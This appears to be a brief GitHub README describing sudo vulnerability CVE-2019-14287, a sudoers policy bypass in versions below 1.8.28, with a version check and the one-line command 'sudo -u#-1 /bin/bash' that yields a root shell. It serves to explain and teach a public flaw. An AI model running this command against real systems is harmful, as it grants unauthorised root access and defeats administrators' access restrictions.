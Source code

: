 # Sudo-1.8.27

## What's sudo?

Sudo is a program for Unix-like computer operating systems that enables users to run programs with the security privileges of another user, by default the superuser.

## The vulnerability

The sudo vulnerability CVE-2019-14287 is a security policy bypass issue that provides a user or a program the ability to execute commands as root on a Linux system when the "sudoers configuration" explicitly disallows the root access. Exploiting the vulnerability requires the user to have sudo privileges that allow them to run commands with an arbitrary user ID, except root.

### Affected version

< 1.8.28

### How to explore

1. First step is discovery sudo version:

```
sudo -V
```

2. If the version is vulnerable, run the follow command to get a root bash:

```
sudo -u#-1 /bin/bash
```
